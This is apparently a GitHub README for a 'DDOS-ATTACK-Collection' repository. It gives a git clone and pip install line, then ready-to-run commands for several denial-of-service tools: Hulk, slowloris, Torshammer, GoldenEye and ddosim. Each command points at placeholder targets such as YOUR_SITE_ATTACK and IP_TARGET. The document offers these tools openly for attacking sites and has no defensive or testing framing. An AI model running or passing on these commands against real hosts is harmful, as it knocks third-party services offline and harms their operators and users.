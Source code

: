 # DDOS-ATTACK-Collection
## First Thanks For All Author Scrypt Gos Blase Ouer, And For More Info About Tools Please Red The REDME.ME in our Tools

**Copy "sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt" And Past on Terminal Command For setup all tools require**

## Hulk-ATTACK :- 
**cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK**


## slowloris-ATTACK :- 
**cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py**

## Torshammer-ATTACK :-
**cd Torshammer && chmod +x * && python torshammer.py -t IP_TARGET  -r NUMBER_THRED -T**

## GoldenEye
**cd GoldenEye && chmod +x * && ./goldeneye.py url OPTIONS**

## ddosim-0.2
**cd ddosim-0.2 && chmod +x * && ./configure && make && make install && ./ddosim IP_TARGET**

